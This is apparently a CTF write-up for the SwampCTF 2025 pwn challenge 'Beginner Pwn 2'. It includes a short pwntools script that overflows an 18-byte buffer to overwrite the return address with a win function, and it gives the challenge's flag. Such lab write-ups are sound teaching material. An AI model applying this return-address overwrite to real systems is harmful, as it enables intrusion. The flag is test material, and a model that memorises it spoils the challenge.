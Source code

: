 ```yaml
---
layout: post
title: "SwampCTF 2025: Beginner Pwn 2"
date:   2025-03-31
author: yoshixi
tags: [writeup]
---
```



author: @yoshixi
solved with: @bentley
## **Challenge Info:**
##### Category: Pwn
![beginnerpwn2](https://digitalyoshixi.github.io/ctfs/swampctf2025/beginnerpwn.webp)

[Download](https://ctf.swampctf.com/files/ba73e4e10e45fd89e46dfc3842c14cbd/binary?token=eyJ1c2VyX2lkIjoxOTEsInRlYW1faWQiOjEwOCwiZmlsZV9pZCI6MjZ9.Z-oS_g.KjaTKth3XM4R_StKJgNkf2RbHQ8)

## Solution
We take a look at `checksec`

![checksec](https://digitalyoshixi.github.io/ctfs/swampctf2025/checksec.webp)

This is good. We have no PIE and no canary. Straightforwards

Now, we try to find the return address

![checksec](https://digitalyoshixi.github.io/ctfs/swampctf2025/retaddr.webp)

Turns out the buffer size is 18, so anything afterwards is now the return statement.

We get the correct script as:

```
import pwn

r = pwn.remote("chals.swampctf.com", 40001)
win_addr = 0x401186

payload = b"A" * 18
payload += pwn.p64(win_addr)
r.sendline(payload)
print(r.recvall().decode('latin-1'))  # Print flag
r.close()
```

## Flag is: `swampCTF{1t5_t1m3_t0_r3turn!!}`